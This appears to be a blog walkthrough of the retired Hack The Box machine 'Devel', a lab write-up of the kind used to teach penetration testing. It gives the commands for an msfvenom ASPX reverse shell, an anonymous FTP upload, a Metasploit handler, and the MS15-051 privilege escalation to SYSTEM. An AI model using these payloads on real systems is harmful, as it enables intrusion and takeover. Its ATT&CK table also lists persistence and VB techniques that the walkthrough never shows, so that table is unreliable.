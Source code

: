 ```yaml
---
title: "Devel Rooted: A Hack The Box Walkthrough"
canonical_url: https://notesbynisha.com/blog/hackthebox/devel-rooted/
date: 2025-04-22
layout: single
classes: wide
author_profile: true
toc: true
toc_label: "Table of Contents"
toc_sticky: true
categories:
  - Blog
  - HackTheBox
tags:
  - hackthebox
  - windows
  - initial-access
  - ftp
  - webdav
  - metasploit
  - privilege-escalation
excerpt: "This post is a walkthrough of the 'Devel' retired machine from Hack The Box. I gain initial access through an exposed FTP and WebDAV setup, then escalate privileges using MS15-051."
header:
  image: /assets/images/htb/devel/devel-00.png
  teaser: /assets/images/htb/devel/devel-00.png
  overlay_filter: "rgba(0, 0, 0, 0.3)"
  caption: "Hack The Box - Devel Machine"
---
```


## 🧠 Summary

- **Target OS**: Windows Server 2008 R2
- **Difficulty**: Easy
- **IP Address**: 10.129.249.251
- **Initial Access Vector**: FTP upload to WebDAV
- **Privilege Escalation Vector**: Kernel exploit (MS15-051)
- **Tools Used**: Nmap, Metasploit, msfvenom

---

## 🛰️ Reconnaissance

I began with a full port scan using Nmap:

```bash
nmap -p- -A -T4 10.129.249.251
```

![Nmap Scan Screenshot](/assets/images/htb/devel/devel-02.png)

### 🔍 Results:

- **Port 21 (FTP)**:
  - `Microsoft ftpd`
  - **Anonymous login** allowed
  - Files: `aspnet_client/`, `iisstart.htm`, `welcome.png`

- **Port 80 (HTTP)**:
  - `Microsoft IIS httpd 7.5`
  - TRACE method enabled
  - OS Guess: Windows Server 2008 R2 / Windows 7 SP1

---

## 🌐 Web Server Enumeration

I browsed the site directly via:

```text
http://10.129.249.251
```

![IIS7 Default Page](/assets/images/htb/devel/devel-03.png)

The page showed the default **IIS7 welcome page**, confirming a likely upload path vulnerability via FTP to the webroot.

---

## 🎯 Initial Foothold

I generated a reverse shell in ASPX format:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.XX LPORT=4444 -f aspx > shell.aspx
```

Uploaded it via FTP (anonymous login):

```bash
ftp 10.129.249.251
put shell.aspx
```

Then triggered it in the browser:

```
http://10.129.249.251/shell.aspx
```

Metasploit caught the reverse shell with a listener:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.14.XX
set LPORT 4444
run
```

---

## 📈 Privilege Escalation

### Step 1: Checked for Kernel Exploits

```bash
systeminfo
```

Identified Windows Server 2008 R2 SP1 — vulnerable to **MS10-015** and **MS15-051**.

### Step 2: Attempted MS10-015

```bash
use exploit/windows/local/ms10_015_kitrap0d
set SESSION <meterpreter session>
run
```

But the exploit failed — I forgot to set the correct `LHOST` and Metasploit defaulted to `eth0` instead of my `tun0`. After troubleshooting, I pivoted.

### Step 3: Successful Exploit with MS15-051

```bash
use exploit/windows/local/ms15_051_client_copy_image
set SESSION <meterpreter session>
set LHOST 10.10.14.XX
run
```

This successfully gave me **SYSTEM** shell.

---

## 🏁 Capture the Flags

```bash
type C:\Users\<user>\Desktop\user.txt
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🧩 MITRE ATT&CK Mapping

| Tactic         | Technique                              |
|----------------|----------------------------------------|
| Initial Access | [T1078.001 - Valid Accounts: Local Accounts](https://attack.mitre.org/techniques/T1078/001/) |
| Execution      | [T1059.005 - Command and Scripting Interpreter: Visual Basic](https://attack.mitre.org/techniques/T1059/005/) |
| Priv. Esc.     | [T1068 - Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068/) |
| Discovery      | [T1082 - System Information Discovery](https://attack.mitre.org/techniques/T1082/) |
| Persistence    | [T1053.005 - Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/) |

---

![Proof of Root - Devel](/assets/images/htb/devel/devel-rooted.png)
